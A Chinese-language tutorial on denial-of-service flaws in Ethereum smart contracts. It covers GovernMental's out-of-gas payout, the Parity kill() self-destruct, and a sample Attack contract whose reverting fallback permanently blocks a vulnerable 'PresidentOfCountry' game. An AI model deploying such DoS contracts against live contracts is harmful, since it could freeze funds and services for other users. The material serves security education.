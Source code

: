 # #DASP# Denial of Services (5)


## 0x00 Info

在智能合约中，当 *超过gas限制*，*异常抛出*，*非预期的终止合约*，*访问控制被破坏* 均会产生合约拒绝服务问题。
本篇就介绍DASP第五大漏洞--[Denial of Service](https://www.dasp.co/#item-5)

<!-- more -->

## 0x01 Real World Impact

### GovernMental

起因：[GovernMental's 1100 ETH jackpot payout is stuck because it uses too much gas](https://www.reddit.com/r/ethereum/comments/4ghzhv/governmentals_1100_eth_jackpot_payout_is_stuck/)

官网：[GovernMental](http://governmental.github.io/GovernMental/)

源码：[etherscan code](https://etherscan.io/address/0xf45717552f12ef7cb65e95476f217ea008167ae3#code)

GovernMental本身是个嘲讽政府[庞氏骗局](https://baike.baidu.com/item/%E5%BA%9E%E6%B0%8F%E9%AA%97%E5%B1%80)的游戏合约，其规则大概为投资者捐最少1ETH给政府，如果政府在最近12小时内没有收到任何捐赠，则将奖金发给最后一名投资人，而如果收到奖励，则按一定比例分别将钱分给资金池、政府及投资人。

其中在大于12小时未收到赞助的逻辑分支中，将奖金分给最后一名投资人后会重置所有投资人：
```solidity
if (lastTimeOfNewCredit + TWELVE_HOURS < block.timestamp) {
    // Return money to sender
    msg.sender.send(amount);
    // Sends all contract money to the last creditor
    creditorAddresses[creditorAddresses.length - 1].send(profitFromCrash);
    corruptElite.send(this.balance);
    // Reset contract state
    lastCreditorPayedOut = 0;
    lastTimeOfNewCredit = block.timestamp;
    profitFromCrash = 0;
    creditorAddresses = new address[](0);    // out of gas!
    creditorAmounts = new uint[](0);         // out of gas!
    round += 1;
    return false;
}
```
以上标注out of gas的两行在底层运行时，代码会循环遍历存储位置并逐个删除，如果creditors过多的话，会消耗大于当前最大gas数量导致合约失效。

[Governmental Attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#governmental)：简化版的Governmental及其EXP利用。

### Parity kill()

[Parity Multisig Hacked. Again](https://medium.com/chain-cloud-company-blog/parity-multisig-hack-again-b46771eaa838)

[A Postmortem on the Parity Multi-Sig Library Self-Destruct](https://paritytech.io/a-postmortem-on-the-parity-multi-sig-library-self-destruct/)

这个其实在[#DASP# Access Control (3)](https://houugen.fun/2018/07/24/DASP-Access-Control-3/#more)一篇中已经介绍，还是利用访问控制漏洞接管parity钱包，然后不是取钱还是调用合约中kill函数销毁合约，从而导致任意用户都无法继续使用。
```solidity
// kills the contract sending everything to `_to`.
function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
}
```

## 0x02 Example

实例来源于DASP，模仿King of the Ether游戏规则，当你向合约发送比现在price多的eth时，你就可以成为总统，之前的总统会收到当前price的补偿，且当前price翻倍。
而争夺者为一个合约且在fallback函数中恶意抛出异常，则可以破坏游戏规则永远成为总统。

```solidity
contract PresidentOfCountry {
    address public president;
    uint256 public price;

    function PresidentOfCountry(uint256 _price) {
        require(_price > 0);
        price = _price;
        president = msg.sender;
    }

    function becomePresident() payable {
        require(msg.value > price); // must pay the price to become president
        president.transfer(price);   // we pay the previous president
        president = msg.sender;      // we crown the new president
        price = price * 2;           // we double the price to become president
    }
}

contract Attack {
    function () { revert(); }

    function Attack(address _target) payable {
        _target.call.value(msg.value)(bytes4(keccak256("becomePresident()")));
    }
}
```

Attack合约部署后通过构造函数调用PresidentOfCountry合约的`becomePresident()`函数，同时发送大于price的eth，则执行becomePresident逻辑，1. 向之前的账户发送price补偿；2. 自己合约账户变为president；3. price翻倍。

当其他正常账户参与游戏调用becomePresident逻辑时，同样会向attach合约地址（当前president）发送price，正因为当前president不是普通账户还是合约账户，transfer会触发合约中fallback函数，而恶业攻击者在fallback中执行了`revert()`，导致异常，从而无法执行后续变更总统和价格的逻辑。造成合约DOS。
> 可以再remix中模拟上述操作。

## 0x03 Others

除了智能合约，链核心、链节点、区块链相关的网址都会出现DOS。
* EOSIO
    + [EOSIO](https://github.com/EOSIO/eos/issues/3497)
    + [CVE-2018-11548](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11548)
* Bitcoin Core
    + [CVE-2016-10724](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10724)
    + [CVE-2016-10725](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10725)
* BitCoin Web
    + [知名比特币网站bustabit价值$12,000的点击劫持、XSS以及拒绝服务漏洞详情揭秘 ](https://mp.weixin.qq.com/s/ymgchNB7k1apjcA_f5iVFg)

